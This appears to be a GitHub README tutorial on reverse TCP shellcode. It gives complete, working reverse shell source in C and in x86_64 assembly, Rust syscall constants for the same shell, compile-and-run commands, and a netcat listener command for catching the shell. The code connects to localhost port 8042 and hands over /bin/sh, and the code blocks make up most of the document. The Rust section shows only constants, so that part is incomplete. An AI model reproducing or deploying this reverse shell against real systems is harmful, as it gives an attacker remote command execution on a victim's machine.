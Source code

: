 # Shellcode

# Reverse TCP

The first thing that we should know is that a reverse TCP shellcode establishes a TCP connection to a server, creates a shell into the victim's computer and redirects the STDOUT functions to the TCP, this allows the attacker to have access into the victim's machine.

# C Reverse TCP

This is an example of a reverse shell client written in C: 

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

  void main() {
    
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in sin;
    
    sin.sin_family = AF_INET;
    sin.sin_port = htons(8042);
    
    inet_pton(AF_INET, "127.0.0.1", &sin.sin_addr.s_addr);
    connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

    dup2(sock, STDIN_FILENO);
    dup2(sock, STDOUT_FILENO);
    dup2(sock, STDERR_FILENO);

    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
}
```
This is a simple TCP reverse shell working in UNIX systems, for trying it you can just compile and run it, don't forget using a server as NC for accepting the incoming connections.

```sh
gcc main.c -o reversetcp

./reversetcp
```

# Tanslated to ASM

This is the same code but translated to ASM x86_64.

```asm
; Same C code but written in ASM x86-64.
 
xor rdx, rdx
mov rsi, 1
mov rdi, 2
mov rax, 41
syscall

push 0x0100007f ; 127.0.0.1 == 0x7f000001
mov bx, 0x6a1f ; 8042 = 0x1f6a
push bx
mov bx, 0x2
push bx
mov rsi, rsp
mov rdx, 0x10
mov rdi, rax
push rax
mov rax, 42
syscall
pop rdi
mov rsi, 2
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
dec rsi
mov rax, 0x21
syscall
push 0x68732f
push 0x6e69622f
mov rdi, rsp
xor rdx, rdx
push rdx
push rdi
mov rsi, rsp
mov rax, 59
syscall
```

This is a good example for why is important to use higher level languajes.

# Final code in Rust

In the Rust code the first thing we have to do is defining our shellcode variables.

```rs
const PORT: u16 = 0x6A1F; // 8042
const IP: u32 = 0x0100007f; // 127.0.0.1

const SYS_DUP2: usize = 33;
const SYS_SOCKET: usize = 41;
const SYS_CONNECT: usize = 42;
const SYS_EXECVE: usize = 59;
const AF_INET: usize = 2;
const SOCK_STREAM: usize = 1;
const IPPROTO_IP: usize = 0;
const STDIN: usize = 0;
const STDOUT: usize = 1;
const STDERR: usize = 2;
```
We also gotta use some structures coded in the C program such as the sockaddr_in structure.
And define the main functions.

# Try and Run

For running the Reverse-TCP client:

```
rustc main.rs
```

And as server we will be using Netcat, preintalled in many Linux systems.

```
nc -vlnp 8042
```

{local_ip}:8042 - You can change the port for receiving the connection in anotherone.
